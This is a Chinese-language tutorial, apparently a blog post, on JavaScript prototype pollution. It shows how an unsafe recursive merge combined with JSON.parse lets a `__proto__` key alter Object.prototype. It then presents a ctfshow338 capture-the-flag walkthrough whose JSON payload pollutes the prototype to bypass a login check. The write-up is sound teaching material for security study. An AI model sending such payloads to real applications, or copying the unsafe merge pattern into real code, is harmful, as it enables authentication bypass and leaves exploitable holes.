在上面的内容中，我们了解了一下什么是原型链污染，那么在实际应用的过程中，哪些情况下可能存在原型链被攻击者修改的情况呢

原型链想要被修改，其实就是寻找哪些情况下可以设置`__proto__`的值，也就是找到能够控制数组（对象）的“键名”的操作即可

-   对象merge：是合并对象的方法，合并两个对象或者多个对象的属性
-   对象clone:（其实内核就是将待操作的对象merge到一个空对象中）

以对象merge为例，我们想象一个简单的merge函数

```plain
function merge(target, source) {
    for (let key in source) {
        if (key in source && key in target) {
            merge(target[key], source[key])
        } else {
            target[key] = source[key]
        }
    }
}
```

我们可以来了解一下这个函数是什么意思

```plain
function merge(target, source) {
    for (let key in source) {
```

首先命名一个 `merge` 的函数，它接受两个参数：`target` 和 `source`。`target` 是目标对象，`source` 是要合并到目标对象的源对象。函数使用一个 `for...in` 循环来迭代源对象 `source` 中的属性。

```plain
if (key in source && key in target) {
```

在循环的每次迭代中，这个条件检查当前属性 `key` 是否同时存在于源对象 `source` 和目标对象 `target` 中。这是为了检查是否存在同名属性。

```plain
merge(target[key], source[key])
```

如果 `key` 同时存在于两个对象中，说明这是一个嵌套的对象。在这种情况下，代码会递归调用 `merge` 函数来合并这两个嵌套的对象，继续迭代它们的属性。

```plain
} else {
    target[key] = source[key]
}
```

如果 `key` 仅存在于源对象 `source` 中，说明这是一个目标对象中没有的新属性。在这种情况下，代码将源对象 `source` 中的属性复制到目标对象 `target` 中。

在合并的过程中，存在赋值的操作`target[key] = source[key]`，那么，这个key如果是`__proto__`，是不是就可以原型链污染呢？

我们使用下面的代码来测试一下

```plain
let o1 = {}//创建一个空对象
let o2 = {a: 1, "__proto__": {b: 2}}
//创建一个对象，对象存在两个属性一个是a,值为1，另一个属性是一个原型对象，值为{b: 2}
merge(o1, o2)//将两个对象进行合并
console.log(o1.a, o1.b)

o3 = {}
console.log(o3.b)
```

结果是，合并虽然成功了，但原型链没有被污染：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118115700-86d4fa2c-85c6-1.png)

这是因为，我们用JavaScript创建o2的过程（`let o2 = {a: 1, "__proto__": {b: 2}}`）中，`__proto__`已经代表o2的原型了，此时遍历o2的所有键名，你拿到的是`[a, b]`，`__proto__`并不是一个key，自然也不会修改Object的原型。

那么，如何**让`__proto__`被认为是一个键名**呢？

我们修改一下代码

```plain
let o1 = {}
let o2 = JSON.parse('{"a": 1, "__proto__": {"b": 2}}')
merge(o1, o2)
console.log(o1.a, o1.b)

o3 = {}
console.log(o3.b)
```

可见，新建的o3对象，也存在b属性，说明Object已经被污染：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118115639-7a58d642-85c6-1.png)

这是因为，JSON解析的情况下，`__proto__`会被认为是一个真正的“键名”，而不代表“原型”，所以在遍历o2的时候会存在这个键。

merge操作是最常见可能控制键名的操作，也最能被原型链攻击，很多常见的库都存在这个问题。

### 实战

#### ctfshow338

给出了源码，我们代码审计一下，在`login.js`中发现了关键函数

```plain
if(secert.ctfshow==='36dboy'){
    res.end(flag);
  }else{
    return res.json({ret_code: 2, ret_msg: '登录失败'+JSON.stringify(user)});  
  }
```

我们只需要使得ctfshow属性为`36dboy`就可以得到flag

在这段代码的上面，我们发现调用了copy函数

```plain
utils.copy(user,req.body);
```

我们来跟进一下，找到`common.js`,看到copy函数

```plain
function copy(object1, object2){
    for (let key in object2) {
        if (key in object2 && key in object1) {
            copy(object1[key], object2[key])
        } else {
            object1[key] = object2[key]
        }
    }
  }
```

根据我们上面学的知识，可以发现这就是一个原型链污染

在登录页面进行抓包

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118115617-6cf1fae2-85c6-1.png)

传入payload

```plain
{"__proto__":{"ctfshow":"36dboy"}}
```

### 参考文章

[https://www.leavesongs.com/PENETRATION/javascript-prototype-pollution-attack.html](https://www.leavesongs.com/PENETRATION/javascript-prototype-pollution-attack.html)  
[https://xz.aliyun.com/t/12383](https://xz.aliyun.com/t/12383)  
[https://forum.butian.net/share/1631](https://forum.butian.net/share/1631)
